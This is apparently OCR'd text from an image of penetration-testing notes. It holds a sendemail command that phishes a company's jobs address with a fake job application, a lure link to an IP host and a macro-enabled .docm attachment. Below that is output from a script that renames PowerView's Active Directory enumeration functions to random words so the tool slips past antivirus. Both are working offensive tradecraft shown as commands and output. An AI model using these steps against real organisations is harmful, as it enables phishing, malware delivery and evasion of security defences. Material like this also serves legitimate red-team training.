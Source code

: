 
endemail -t jobs@cowmotors-int.com -f jeffreylau10@hotmail.com -s 192.168.180.201 -m "Hello if you are interested please click http://192.168.45.179/hello" -u "Job application for Application Security Engineer" -a job-devops.docm


PowerView4

[*] Replaced Add-DomainGroupMember With: purchaser
[*] Replaced Add-DomainObjectAcl With: fray
[*] Replaced Add-RemoteConnection With: fill
[*] Replaced Add-Win32Type With: bureaucrats
[*] Replaced Convert-ADName With: libeller
[*] Replaced Convert-DNSRecord With: caviling
[*] Replaced Convert-FileRight With: Beijing
[*] Replaced Convert-LDAPProperty With: repellents
[*] Replaced ConvertFrom-LDAPLogonHours With: reeks
[*] Replaced ConvertFrom-SID With: repellants
[*] Replaced ConvertFrom-UACValue With: Tabriz
[*] Replaced ConvertTo-LogonHoursArray With: brontosaur
[*] Replaced ConvertTo-SID With: anemones
[*] Replaced Export-PowerViewCSV With: bucketfuls
[*] Replaced Find-DomainLocalGroupMember With: spa
[*] Replaced Find-DomainObjectPropertyOutlier With: mahogany
[*] Replaced Find-DomainProcess With: spiny
[*] Replaced Find-DomainShare With: circularizing
[*] Replaced Find-DomainUserEvent With: eased
[*] Replaced Find-DomainUserLocation With: oversupplies
[*] Replaced Find-InterestingDomainAcl With: cling
[*] Replaced Find-InterestingDomainShareFile With: remanding
[*] Replaced Find-InterestingFile With: Rydberg
[*] Replaced Find-LocalAdminAccess With: shyest
[*] Replaced Get-Domain With: impalpable
[*] Replaced Get-DomainComputer With: shamming
[*] Replaced Get-DomainController With: sanserif
[*] Replaced Get-DomainDFSShare With: screwiest
[*] Replaced Get-DomainDFSShareV1 With: rotogravures
[*] Replaced Get-DomainDFSShareV2 With: unbuckled
[*] Replaced Get-DomainDNSRecord With: thronging
[*] Replaced Get-DomainDNSZone With: commandants
[*] Replaced Get-DomainFileServer With: alternations
[*] Replaced Get-DomainForeignGroupMember With: fallacy
[*] Replaced Get-DomainForeignUser With: effortlessly
[*] Replaced Get-DomainGPO With: obligingly
[*] Replaced Get-DomainGPOComputerLocalGroupMapping With: discover
[*] Replaced Get-DomainGPOLocalGroup With: sniffed
[*] Replaced Get-DomainGPOUserLocalGroupMapping With: antibiotic
[*] Replaced Get-DomainGUIDMap With: legally
[*] Replaced Get-DomainGroup With: dissolved
[*] Replaced Get-DomainGroupMember With: wallboard
[*] Replaced Get-DomainGroupMemberDeleted With: Krebs
[*] Replaced Get-DomainManagedSecurityGroup With: pancaking
[*] Replaced Get-DomainOU With: orifice
[*] Replaced Get-DomainObject With: squashier
[*] Replaced Get-DomainObjectAcl With: pipsqueaks
[*] Replaced Get-DomainObjectAttributeHistory With: undoings
[*] Replaced Get-DomainObjectLinkedAttributeHistory With: northwestward
[*] Replaced Get-DomainPolicyData With: plutocracy
[*] Replaced Get-DomainSID With: critters
[*] Replaced Get-DomainSPNTicket With: misspelt
[*] Replaced Get-DomainSearcher With: Lavoisier
[*] Replaced Get-DomainSite With: belonging
[*] Replaced Get-DomainSubnet With: stuffily
[*] Replaced Get-DomainTrust With: sourced
[*] Replaced Get-DomainTrustMapping With: solaced